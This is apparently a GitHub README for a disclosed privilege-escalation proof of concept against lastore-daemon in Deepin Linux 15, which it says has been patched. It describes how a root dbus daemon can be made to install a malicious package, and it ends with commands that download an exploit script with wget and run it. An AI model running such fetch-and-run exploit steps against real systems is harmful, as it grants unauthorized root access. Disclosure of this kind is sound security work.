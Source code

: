 # privilege escalation POC for deepin 15

## Notice: 
* This POC is Invalid result from system updates in 20160225

## Vulnerability Description
* In Deepin Linux 15, they designed a daemon (called lastore-daemon) based on dbus and apt to support deepin-appstore.
* Lastore-daemon runs with root privilege to run apt-get commands and listens  to dbus message from every user.
* So, we can send the package name along with some options to lastore-daemon to install or remove any package, even to destroy the host system.
* Apart from that, if we prepare a malicious package and try to cheat lastore-daemon into installing it, then anyone can have root privilege.



## Header for [exploit-db](https://www.exploit-db.com/exploits/39433/)
		Exploit Title: Lastore-daemon in Deepin 15 results in privilege escalation
 		Date: 20160208
 		Exploit Author: King's Way <root#kings-way.info>
	 	Vendor Homepage: http://www.deepin.org
		Software Link: http://cdimage.linuxdeepin.com/releases/15.1/deepin-15.1-amd64.iso
		Version: Deepin 15 & 15.1
 		Tested on: Deepin 15 & 15.1
 		CVE : null

## Ps
Hex data of the homemade package have been written in a single python file, thus all you need to do is:
	
	$ wget https://raw.githubusercontent.com/kings-way/deepinhack/master/deepinhack.py -O  /tmp/deepinhack.py
	
	$ python /tmp/deepinhack.py

Of course, the deb package and the initial python code have been uploaded too.